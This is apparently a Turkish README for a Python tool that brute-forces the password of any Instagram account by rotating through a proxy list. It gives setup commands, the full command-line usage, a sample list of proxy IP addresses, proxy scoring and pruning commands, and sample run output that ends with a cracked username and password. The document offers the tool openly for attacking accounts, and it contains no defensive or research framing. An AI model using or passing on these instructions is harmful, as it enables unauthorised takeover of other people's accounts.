 Instagram Script
Bu program, size gönderilen bir proxy listesi ile herhangi bir Instagram hesabını kaba kuvvet saldırısıyla deneyecektir.

Destek
Bu programı güncellemeye devam etmemi teşvik eder.

Gereksinimler
Python v3.9
proxy listesi
Bağımlılıkları Yükleyin
Pipenv'i Yükleyin
bash
Copy code
pip install pipenv
Çevre oluşturun
Python 3.9'un yüklü olduğundan emin olun

bash
Copy code
pipenv --python 3.9
Gerekli Paketleri Yükleyin
bash
Copy code
pipenv install
Yardım
bash
Copy code
kullanım: instagram.py [-h] [-u KULLANICI ADI] [-p ŞİFRE LİSTESİ] [-px PROXY LİSTESİ] [--prune PRUNE] [--stats] [-nc] [-m MOD]

isteğe bağlı argümanlar:
  -h, --help            bu yardım mesajını göster ve çık
  -u KULLANICI ADI, --username KULLANICI ADI
                        e-posta veya kullanıcı adı
  -p ŞİFRE LİSTESİ, --passlist ŞİFRE LİSTESİ
                        şifre listesi
  -px PROXY LİSTESİ, --proxylist PROXY LİSTESİ
                        proxy listesi
  --prune PRUNE         veritabanını temizle
  --stats               proxy istatistiklerini al
  -nc, --no-color       renkleri devre dışı bırak
  -m MOD, --mode MOD    modlar: 0 => 32 bot; 1 => 16 bot; 2 => 8 bot; 3 => 4 bot
Proksiler
Sistem çalışmak için bir proksi listesine ihtiyaç duyar. Yüklendikten sonra, proxy'ler bir veritabanına kaydedilir.<br/>

Yükle
Proxy listesini programa yükleyin. Proxy dosyasının ip:port formatında olması gerekmektedir.<br/>

proxies_list.txt

makefile
Copy code
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
Proxy listesini yüklemek için benzer bir sözdizimini takip etmelisiniz.

bash
Copy code
python instagram.py -px <proksi listesinin yolu>
İstatistikler
Bu, veritabanındaki proxy'lerin durumu hakkında bilgi verir.

bash
Copy code
python instagram.py --stats
Budama
Bu, belirli bir puanın altındaki proxy'leri temizlemenizi sağlar.<br/>
--stats komutunu çalıştırmanız ve veritabanını, proxy'lerin Q1 altındaki puanına sahip olanlardan temizlemeniz önerilir.

bash
Copy code
python instagram.py --prune 0.05
Budama zorunlu değildir çünkü sistem, kötü performans gösteren proxy'leri otomatik olarak öğrenir ve bunları kullanmayı bırakır.

Kullanım
bash
Copy code
python instagram.py -u <kullanıcı adı> -p <şifre listesi>
Çalıştır
bash
Copy code
[-] Şifre Listesi: passlist.txt
[-] Kullanıcı Adı: Anomin123
[-] Şifre: 272
[-] Tamamlandı: 45.51%
[-] Deneme: 228
[-] Tarayıcılar: 273
[-] Var: True
Durdur
bash
Copy code
[-] Şifre Listesi: passlist.txt
[-] Kullanıcı Adı: anomin123
[-] Şifre: 1234
[-] Tamamlandı: 62.67%
[-] Deneme: 314
[-] Tarayıcılar: 185
[-] Var: True

[!] Şifre Bulundu
[+] Kullanıcı Adı: Anomin123
[+] Şifre: 1234